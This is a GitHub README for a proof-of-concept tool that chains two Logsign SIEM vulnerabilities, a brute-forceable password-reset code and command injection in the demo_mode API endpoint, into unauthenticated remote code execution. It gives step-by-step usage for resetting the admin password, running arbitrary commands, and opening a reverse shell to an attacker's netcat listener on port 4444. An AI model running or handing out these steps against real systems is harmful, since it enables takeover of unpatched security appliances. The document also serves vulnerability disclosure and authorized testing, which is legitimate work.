 # Logsign SIEM RCE Exploit (CVE-2024-5716 & CVE-2024-5717)

This tool is a proof-of-concept (PoC) exploit that combines two critical vulnerabilities in the Logsign Unified SecOps Platform (SIEM) to achieve unauthenticated remote code execution (RCE).

## Description

The exploit chains two vulnerabilities:

**CVE-2024-5716 (Authentication Bypass):**  
A flaw in the password reset mechanism allows the 6-digit reset code to be brute-forced without rate limiting. This script uses multi-threading to quickly identify the reset code and reset the admin user's password.

**CVE-2024-5717 (Command Injection):**  
Once logged in as an admin user, the `/api/settings/demo_mode` API endpoint fails to properly validate user input, allowing arbitrary command injection and execution on the target system.

By combining these vulnerabilities, an attacker can gain full control over the target system.

## Features

- Automatically chains CVE-2024-5716 and CVE-2024-5717.
- Resets the admin user's password to gain system access.
- Supports three modes for remote code execution (RCE):
  - **Default PoC**: Executes `id > /tmp/logsign_pwned.txt` on the target system.
  - **Single Command Execution**: Runs a user-specified command.
  - **Reverse Shell**: Establishes an interactive shell session to a specified IP and port.
- Detailed logging for debugging with `--debug` mode.

## Installation and Requirements

**Clone the project files:**

```
bash
git clone https://github.com/sevbandonmez/logsign-rce.git
cd logsign-rce
```

Writeup: https://medium.com/@sevbandonmez/zero-day-review-critical-vulnerabilities-in-logsign-unified-secops-platform-versions-6-4-7-69bbec653b3a

## Install the required Python library

```pip install requests```


## Usage
The script can be executed with various command-line arguments.

```
usage: exploit.py [-h] -t TARGET [-rh REVERSE_HOST] [-rp REVERSE_PORT] [-c COMMAND] [-d]

Logsign RCE Exploit Tool

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target URL (e.g., https://example.com:8443)
  -rh REVERSE_HOST, --reverse-host REVERSE_HOST
                        Reverse shell IP address
  -rp REVERSE_PORT, --reverse-port REVERSE_PORT
                        Reverse shell port
  -c COMMAND, --command COMMAND
                        Custom command to execute
  -d, --debug           Enable debug logging
```

## Example 1: Default PoC
This mode creates a file /tmp/logsign_pwned.txt on the target system to prove the vulnerability.

```python3 exploit.py -t https://192.168.1.100```

Check the file on the target system: cat /tmp/logsign_pwned.txt.Example 2: Single Command ExecutionRun a single command, such as whoami, on the target system:bash

```python3 exploit.py -t https://192.168.1.100 -c "whoami"```

## Example 3: Reverse Shell
This mode provides an interactive command-line shell on the target system.

**Step 1:* Start a listener on the attacker's machine using Netcat:bash**

```nc -lvnp 4444```

**Step 2:* Run the exploit, specifying your IP address and port:bash**

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444```

If successful, a shell session will appear in your Netcat listener.

## Debugging
If the script fails or produces unexpected errors, enable detailed logging with the --debug flag:bash

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444 --debug```

## Legal Disclaimer
This tool is developed solely for authorized security testing and educational purposes. Unauthorized use of this tool for illegal activities is strictly prohibited. Any damage or legal consequences resulting from the use of this tool are the sole responsibility of the user. The developer is not liable for any misuse of this tool.

## LICENSE
This project is licensed under the MIT License. See the LICENSE file for details.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)
